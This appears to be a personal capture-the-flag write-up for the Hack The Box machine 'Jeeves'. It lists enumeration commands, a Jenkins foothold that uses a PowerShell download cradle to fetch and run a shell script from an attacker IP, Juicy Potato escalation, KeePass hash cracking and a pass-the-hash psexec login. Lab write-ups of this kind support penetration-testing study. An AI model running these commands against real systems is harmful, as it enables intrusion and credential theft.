


# Summary


## about target

tip: 10.129.228.112

hostname:  Jeeves

Difficulty:  Medium


## about attack

+ file enum, obtain password/hash from kdbx file.
+ juicy potato


**attack note**

```bash
Jeeves / 10.129.228.112

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows 10 1511 - 1607 (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), FreeBSD 6.2-RELEASE (86%), Microsoft Windows 10 1511 (85%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

---- Interesting
-- from cme policy enum
 [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)

---- Enum 
# smb 
enum4linux -a $tip | tee enum4linux.log
crackmapexec smb $tip -u '' --pass-pol
smbclient -L $tip
smbclient -L $tip -U "" -N
smbclient -L $tip -U "guest" -N
smbmap -H $tip -u null
smbmap -H $tip -u ''
smbmap -H $tip -u test

# web
default page, search button no req send

gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://$tip -o gobuster.log
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://$tip:50000 -o gobuster-50000.log

found /askjeeves port 50000
jekins server
add now project, build; got shell
powershell IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.11/shell1.ps1')


---- Foothold

# from jenkins users/admin/config.xml
#jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roeh0

---- System

## juicy potato
echo "powershell -ep bypass c:\temp\shell1.ps1" | out-file -encoding ASCII run.bat
.\jp.exe -t * -p "c:\temp\run.bat" -l 1337

## kdbx 
documents\  found keepass db file, CEH.kdbx

download kdbx to kali
keepass2john CEH.kdbx > keepass.hash
hashcat -a 0 -m 13400 jeeves.hash ../rockyou.txt

kpcli --kdb=CEH.kdbx
find .
show -f 0

got hash of backup stuff
check hash, administrator
cme smb $tip -u administrator -H e0fb1fb85756c24235ff238cbe81fe00 --shares

psexec.py --hashes :e0fb1fb85756c24235ff238cbe81fe00 administrator@$tip
```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


# Foothold


# Privesc





## kdbx - pth




